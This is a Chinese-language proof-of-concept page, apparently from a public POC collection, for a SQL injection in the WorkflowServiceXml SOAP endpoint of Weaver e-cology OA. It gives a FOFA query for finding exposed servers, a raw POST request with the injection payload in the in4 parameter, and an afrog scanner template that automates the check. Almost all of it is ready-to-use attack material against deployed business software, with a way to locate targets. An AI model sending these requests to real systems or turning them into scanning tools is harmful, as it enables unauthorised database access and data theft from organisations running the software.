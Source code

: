 # 泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞

泛微OA E Cology 接口/services/WorkflowServiceXml 存在SQL注入漏洞，可获取数据库权限，导致数据泄露。

## fofa

```yaml
app="泛微-OA（e-cology）"
```

## poc

```yaml
POST /services/WorkflowServiceXml HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: text/xml
Accept-Encoding: gzip
Content-Length: 487

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> <soapenv:Header/>
  <soapenv:Body>
      <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
            <web:string>1=1 AND 5615=5615</web:string>
        </web:in4>
      </web:getHendledWorkflowRequestList>
  </soapenv:Body>
</soapenv:Envelope>
```

![image-20240713144906637](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407131449840.png)

![image-20240713144940509](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407131449561.png)



## afrog poc

```yaml
id: 泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞

info:
  name: 泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞
  author: wy876
  severity: high
  verified: true
  description: |-
    泛微OA E Cology 接口/services/WorkflowServiceXml 存在SQL注入漏洞，可获取数据库权限，导致数据泄露。
    Fofa: app="泛微-OA（e-cology）"

  reference:
    - https://github.com/wy876/POC/blob/main/泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞.md
  tags: 泛微e-cology
  created: 2024/07/13


rules:
  r0:
    request:
      method: POST
      path: /services/WorkflowServiceXml
      headers:
        Content-Type: text/xml
      body: |
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> <soapenv:Header/>
        <soapenv:Body>
        <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
            <web:string>1=1 AND 5615=5615</web:string>
        </web:in4>
        </web:getHendledWorkflowRequestList>
        </soapenv:Body>
        </soapenv:Envelope>
    expression: response.status == 200 && response.body.bcontains(b'WorkflowRequestInfo') && response.body.bcontains(b'workflowName') && response.body.bcontains(b'lastOperatorName')

expression: r0()
```

